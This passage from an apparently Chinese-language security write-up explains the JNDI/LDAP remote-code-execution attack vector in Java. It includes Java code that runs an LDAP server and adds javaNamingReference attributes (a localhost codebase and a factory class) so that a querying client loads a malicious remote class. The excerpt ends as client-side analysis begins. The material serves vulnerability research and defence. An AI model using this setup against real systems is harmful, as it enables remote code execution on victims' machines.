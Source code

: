 ```

            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

以上的代码呢就是在本地起了一个 ldap 服务监听 1389 端口，并向其中添加了一条可被查询的条目。单起一个 ldap 服务肯定是不够的，既然是 ldap RCE 攻击向量，那就肯定要添加一些东西让 客户端在通过 JNDI 查询该 Ldap 的条目之后转而去指定的服务器上加载恶意类。

所以需要向该条目中添加一些属性，根据知道创宇 404 实验室的 Longofo 大佬的文章

```
public class LDAPServer1 {
    public static void main(String[] args) throws NamingException, RemoteException {
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY,
                "com.sun.jndi.ldap.LdapCtxFactory");
        env.put(Context.PROVIDER_URL, "ldap://localhost:1389");

        DirContext ctx = new InitialDirContext(env);

        Attribute mod1 = new BasicAttribute("objectClass", "top");
        mod1.add("javaNamingReference");

        Attribute mod2 = new BasicAttribute("javaCodebase",
                "http://127.0.0.1:8000/");
        Attribute mod3 = new BasicAttribute("javaClassName",
                "ExportObject");
        Attribute mod4 = new BasicAttribute("javaFactory", "com.longofo.remoteclass.ExportObject");


        ModificationItem[] mods = new ModificationItem[]{
                new ModificationItem(DirContext.ADD_ATTRIBUTE, mod1),
                new ModificationItem(DirContext.ADD_ATTRIBUTE, mod2),
                new ModificationItem(DirContext.ADD_ATTRIBUTE, mod3),
                new ModificationItem(DirContext.ADD_ATTRIBUTE, mod4)
        };
        ctx.modifyAttributes("uid=longofo,ou=employees,dc=example,dc=com", mods);
    }
}
```

这里是向之前创建好的 ldap 索引中添加一些属性，客户端在向服务端查询该条索引，服务端返回查询结果，客户端根据服务端的返回结果然后去指定位置查找并加载恶意类，这就是 ldap 攻击向量一次 RCE 攻击的流程。

这里我们就要具体关注下 JNDI 客户端是如何在访问 Ldap 服务的时候被 RCE 的

首先客户端代码

